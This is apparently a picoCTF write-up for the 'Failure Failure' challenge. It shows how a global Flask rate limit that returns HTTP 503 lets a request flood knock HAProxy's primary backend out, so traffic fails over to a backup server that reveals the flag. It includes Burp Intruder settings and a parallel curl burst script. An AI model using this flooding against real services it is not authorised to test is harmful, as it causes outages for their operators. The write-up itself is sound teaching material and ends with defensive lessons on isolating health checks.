






# Failure Failure

**Category:** General Skills
**Difficulty:** Medium
**Author:** Darkraicg492

---

## Challenge Description

The challenge simulates a high-availability setup where a load balancer stands between us and two backend services.

The description says that one server is prioritized over the other, and the flag will only be revealed if we can force the load balancer to use the backup server.

The provided files were:

```text
app.py
haproxy.cfg
```

The main idea is to understand how the application behaves, how HAProxy decides whether a backend is healthy, and how to trigger failover to the backup server.

---

## Application Analysis

I started by inspecting the Flask application:

```bash
cat app.py
```



The first important part is the rate-limit key:

```python
def global_rate_limit_key():
    return "global"
```

This means the rate limit is global.
It is not per user or per IP address. All requests share the same rate-limit counter.

The application then defines a global limit:

```python
default_limits=["300 per minute"]
```

The route `/` is also limited to:

```python
@limiter.limit("300 per minute")
```

So if more than 300 requests are sent in one minute, the application hits the rate limit.

The error handler is also important:

```python
@app.errorhandler(429)
def ratelimit_exceeded(e):
    return "Service Unavailable: Rate limit exceeded", 503
```

Normally, rate limiting returns HTTP `429`.
However, this application converts the rate-limit error into HTTP `503 Service Unavailable`.

Finally, the flag logic is controlled by the `IS_BACKUP` environment variable:

```python
if os.getenv("IS_BACKUP") == "yes":
    flag = os.getenv("FLAG")
else:
    flag = "No flag in this service"
```

This means:

```text
Primary server  → No flag in this service
Backup server   → returns the flag
```

So our goal is to force HAProxy to stop using the primary server and switch to the backup server.

---

## HAProxy Configuration Analysis

Next, I inspected the HAProxy configuration:

```bash
cat haproxy.cfg
```



The frontend listens on port 80:

```haproxy
frontend http-in
    bind *:80
    default_backend servers
```

All traffic is forwarded to the backend named `servers`.

The backend configuration contains the health check:

```haproxy
backend servers
    option httpchk GET /
    http-check expect status 200
```

This means HAProxy checks the `/` endpoint and expects an HTTP `200` response.
If the server does not return `200`, HAProxy considers it unhealthy.

The primary server is:

```haproxy
server s1 *:8000 check inter 2s fall 2 rise 3
```

The backup server is:

```haproxy
server s2 *:9000 check backup inter 2s fall 2 rise 3
```

The keyword `backup` means that `s2` is only used if the primary server `s1` becomes unavailable.

The important failover chain is:

```text
Too many requests
→ Flask rate limit triggers
→ Flask returns HTTP 503
→ HAProxy health check expects HTTP 200
→ HAProxy marks primary server as down
→ HAProxy routes traffic to backup server
→ Backup server returns the flag
```

---

## Baseline Request with Burp Suite

I first opened the challenge URL in the browser through Burp Suite.

In Burp:

```text
Proxy → HTTP history
```

I captured the normal request:

```http
GET / HTTP/1.1
Host: mysterious-sea.picoctf.net:<PORT>
```



The normal response came from the primary server and showed the regular page without the flag.

This confirmed that normal traffic was still going to the primary backend.

---

## Preparing Burp Intruder

To generate many requests, I sent the baseline request to Intruder.

In Burp:

```text
Right click request → Send to Intruder
```

Then I added a dummy header with a payload position:

```http
X-Burst: §1§
```

The purpose of this header is only to make Intruder generate many different requests.
The value itself is not important.

---

## Configuring the Payloads

In Intruder, I used a numeric payload:

```text
Payload type: Numbers
From: 1
To: 340
Step: 1
```



I chose 340 requests because the Flask application allows 300 requests per minute.
Sending more than 300 requests quickly should trigger the global rate limit.

---

## Resource Pool Configuration

To make the burst faster, I created a new Burp resource pool:

```text
Name: Burst
Maximum concurrent requests: 30
```



This allows Burp to send multiple requests in parallel, making it more likely to hit the rate limit before the instance expires.

---

## Exploitation

After understanding the logic, I used a Python script to automate the process faster.

The script sends a burst of requests to the challenge URL, waits for HAProxy to mark the primary server as down, then polls the website until the backup server responds.

Example usage:

```bash
python3 solve.py
```

The output showed:

```text
[+] Bursting 340 requests against http://mysterious-sea.picoctf.net:<PORT>
[+] Burst status counts: {200: 302, 503: 38}
[+] Waiting for HAProxy to mark the primary down
[+] Poll 1: HTTP 200
picoCTF{...}
```



The important part is:

```text
{200: 302, 503: 38}
```

This confirms that the burst exceeded the rate limit and produced HTTP `503` responses.

After that, HAProxy detected the primary server as unhealthy and failed over to the backup server, which returned the flag.

---

## Why This Works

The vulnerability is not a classic code injection bug.
It is a logic issue caused by the interaction between the application rate limit and HAProxy health checks.

The Flask app has a global rate limit of 300 requests per minute. When the limit is exceeded, the app returns HTTP 503 instead of 429.

HAProxy is configured to expect HTTP 200 from the primary server. If the primary starts returning 503, HAProxy marks it as down after failed health checks.

Since the second backend is marked as `backup`, HAProxy only routes traffic to it when the primary is considered unavailable.

The backup server has:

```text
IS_BACKUP=yes
```

so it returns the flag instead of the normal message.

---

## Full Command Sequence

```bash
cat app.py
cat haproxy.cfg
```

Optional manual burst using curl:

```bash
URL="http://mysterious-sea.picoctf.net:<PORT>/"

curl -s "$URL"

seq 1 340 | xargs -P40 -I{} curl -s -o /dev/null "$URL"

sleep 5

for i in {1..20}; do
  curl -s "$URL"
  echo
  sleep 1
done
```

Python solve method:

```bash
python3 solve.py
```

If the instance port changes, update the URL in `solve.py` before running it.

---

## Investigation Summary

```text
1. Inspected app.py.
2. Found a global rate limit of 300 requests per minute.
3. Found that rate-limit errors are returned as HTTP 503.
4. Inspected haproxy.cfg.
5. Found that HAProxy health checks expect HTTP 200.
6. Identified s1 as the primary backend.
7. Identified s2 as the backup backend.
8. Used Burp Intruder to prepare a burst of requests.
9. Sent more than 300 requests quickly.
10. The primary server started returning 503.
11. HAProxy marked the primary as unhealthy.
12. HAProxy failed over to the backup server.
13. The backup server returned the flag.
```

---

## Tools Used

```text
cat
Burp Suite
Burp Intruder
Python
curl
HAProxy configuration analysis
```

---

## Key Takeaways

* Load balancers rely on health checks to decide which backend should receive traffic.
* A backend returning HTTP 503 can be marked as unhealthy.
* Rate limiting can affect availability if health checks depend on the same limited endpoint.
* Backup servers may expose different behavior than primary servers.
* For HA setups, health-check endpoints should be isolated from user-triggered rate limits.

---

## Final Flag

```text
picoCTF{...REDACTED...}
```
